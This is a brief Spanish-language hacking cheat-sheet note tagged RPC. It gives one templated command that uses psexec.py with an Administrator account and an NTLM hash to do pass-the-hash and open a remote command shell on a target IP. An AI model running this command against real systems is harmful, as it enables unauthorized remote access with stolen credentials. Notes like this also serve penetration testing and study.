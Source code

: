 # RPC

Tags: #RPC #Comandos 

- Comando -> **psexec.py WORKGROUP/Administrator@< IP> -hashes <'HASH'>** Podremos ganar acceso al sistema y nos lanzara una cmd ya que estariamos haciendo un Pass de Hash 